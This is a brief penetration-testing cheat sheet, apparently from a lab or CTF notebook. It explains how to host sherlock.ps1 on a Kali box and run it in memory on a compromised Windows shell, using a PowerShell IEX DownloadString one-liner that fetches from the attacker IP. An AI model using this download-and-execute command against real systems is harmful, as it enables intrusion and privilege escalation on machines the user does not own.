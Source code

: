 # How to download and execute a PS file on Windows machines
## Scenario
Kali attack machine: 10.10.16.18
We have a user shell on a windows machine.
We have a PowerShell file on Kali attack box that we want to run: sherlock.ps1

## Get the file ready
Put it into /root/transfer
start HTTP server: python3 -m http.server 80

## Download and run the file on windows machine
To the user shell
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.18/sherlock.ps1') | powershell -noprofile -

